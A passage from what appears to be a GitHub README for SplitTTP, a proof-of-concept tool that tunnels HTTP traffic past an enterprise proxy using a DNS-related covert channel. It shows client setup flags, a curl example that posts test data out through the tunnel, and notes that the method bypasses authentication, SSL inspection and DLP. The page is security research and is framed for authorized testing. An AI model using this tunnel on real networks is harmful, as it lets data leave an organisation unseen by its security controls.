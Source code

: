 ```bash
    --dns-domain my.files \
    --outbound-proxy http://ENTERPRISE_PROXY_IP:ENTERPRISE_PROXY_PORT
    # Example: --outbound-proxy [http://127.0.0.1:8443](http://127.0.0.1:8443) (if GreenVest is local)

# 3. Configure your application (e.g., curl, browser) on the attacker's machine
#    to use the SplitTTP Client as its HTTP proxy:
#    Proxy: http://localhost:8999 (if splittp_client.py is running locally)
# Example:
curl -x http://localhost:8999 -d "testdata" http://example.org/receivedata.php
```

---

## Security Insights

* **Authentication sequencing matters** – A premature reputation lookup can open a tunnel that bypasses authentication, authorization, SSL inspection, DLP, etc.

---
## Limitations & Ethics

* This is Proof-of-Concept grade code. It uses raw `pickle` (which has security implications if the data source is untrusted, though here the pickled data originates from a `requests.Response` object controlled by `splittp_server.py`). It does not perform cleanup of files in `/tmp/dns_files/`.
* Lacks advanced stealth features (e.g., jitter, padding, encryption of the covert channel data).
* **Ethical Use Only:** This tool is intended for security research, education, and authorized penetration testing. Use only where you have explicit, written permission. Misuse of this tool is illegal and unethical.


---
## Author

Jose Garduno https://www.linkedin.com/in/josegarduno/